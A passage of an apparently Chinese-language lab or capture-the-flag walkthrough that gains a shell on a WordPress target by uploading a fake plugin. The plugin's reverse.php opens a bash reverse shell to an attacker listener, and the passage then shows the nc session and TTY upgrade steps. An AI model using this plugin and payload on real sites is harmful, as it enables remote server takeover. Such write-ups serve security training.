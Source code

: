 ```php
<?php
/**
 * Plugin Name:       reverse shell
 * Description:       Visit /wp-content/plugins/my-shell-plugin/reverse.php to trigger.
 * Version:           1.0
 * Author:            kali
 */
if ( ! defined( 'WPINC' ) ) {
    die;
}
?>
```

**`reverse.php` 内容 (一个简单的反弹Shell):**

```php
<?php
  exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.205.128/8888 0>&1'");
?>
```

> **注意**：目标PHP环境可能禁用了一些危险函数，如 `system`, `passthru` 等。经过测试，`exec` 函数在此环境中可用。

将 `my-shell-plugin` 目录压缩为zip文件。

## **3.2 上传并触发**

在WordPress后台 "插件" -> "安装插件" -> "上传插件" 处上传 `my-shell-plugin.zip` 并启用它。

在Kali上开启监听：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nc -lvnp 8888
listening on [any] 8888 ...
```

访问上传的PHP文件以触发反弹Shell：`http://halfhour.dsz/wp-content/plugins/my-shell-plugin/reverse.php`

成功接收到Shell：

```bash
connect to [192.168.205.128] from (UNKNOWN) [192.168.205.200] 59450
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## **3.3 稳定Shell**

为了更好的交互体验，将当前Shell升级为功能完整的TTY Shell。

```bash
script /dev/null -c bash
# 按下 Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm SHELL=/bin/bash
stty rows 36 columns 178
```
